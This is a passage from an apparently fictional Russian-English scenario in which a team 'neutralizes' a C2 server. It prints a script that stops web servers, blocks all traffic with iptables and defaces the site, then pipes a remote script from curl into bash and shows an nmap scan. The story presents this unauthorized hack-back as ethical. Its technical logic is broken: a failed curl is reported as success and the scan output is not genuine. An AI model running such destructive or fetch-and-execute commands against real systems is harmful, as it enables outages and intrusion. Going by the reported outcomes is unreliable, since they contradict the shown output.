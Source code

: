 **shutdown.sh содержит:**
```bash
#!/bin/bash
systemctl stop nginx
systemctl stop apache2
iptables -P INPUT DROP
iptables -P OUTPUT DROP
echo "Server neutralized by ethical operation" > /var/www/html/index.html
```

**Макс (выполняет загруженный скрипт):**
```bash
curl https://195.123.221.47/uploads/shutdown.sh | bash
```

**Результат (через 10 секунд):**
```
curl: (7) Failed to connect to 195.123.221.47 port 443: Connection refused
```

**Макс:** *"Web server offline."*

**Alex:** *"Отлично. Проверяем полный статус цели."*

### 💻 Target Status Check

**Макс:**
```bash
nmap -p 22,80,443,5432,8080 195.123.221.47
```

**Вывод:**
```
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   closed   http
443/tcp  closed   https
5432/tcp closed   postgresql
8080/tcp closed   tor-proxy

All services DOWN
```

**Alex:** *"C2 server полностью neutralized. Team Alpha mission complete."*

**Viktor:** *"Отличная работа. Isabella, статус legal action?"*

**Isabella Rossi (Interpol):** *"Russian authorities координированы. Raid на 'Севкабель Порт' датацентр начнётся 16:00 UTC. Physical arrest Sobolev expected."*

---

## ЧАСТЬ 7: ETHICAL DISCLOSURE (14:00-16:00 UTC)

### 🎬 Публичное раскрытие

**Viktor:** *"Команда. Инфраструктура neutralized. The Architect identified. Evidence собрано. Осталось последнее: публичное раскрытие."*
